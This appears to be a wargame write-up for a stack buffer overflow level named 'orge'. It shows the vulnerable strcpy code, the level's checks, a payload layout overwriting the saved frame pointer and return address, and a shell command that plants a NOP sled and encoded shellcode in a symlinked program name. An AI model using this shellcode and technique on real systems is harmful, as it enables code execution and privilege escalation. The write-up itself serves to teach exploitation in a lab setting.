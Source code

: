 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy() that does not check boundary.

So, I can overwrite SFP & RET address.

Protection code is:
```c
// here is changed
if(argc != 2){
  printf("argc must be two!\n");
  exit(0);
}

// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// check the length of argument
if(strlen(argv[1]) > 48){
  printf("argument is too long!\n");
  exit(0);
}
```
The protection that checks argc is 2 or not is added.

# Exploitation
As the program does not reset argv[0], I will pass shellcode in program's name.

```
----------------------------------------------
| NOP(40) | AAAA(4) | RET(argv[0]'s address) |
----------------------------------------------
```

To give shellcode in argv[0], I used `ln -s`:
```bash
[orge@192 orge]$ ln -s /home/orge/asdfa /home/orge/`python -c 'print "\x90"*40+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*10'`
[orge@192 orge]$
```
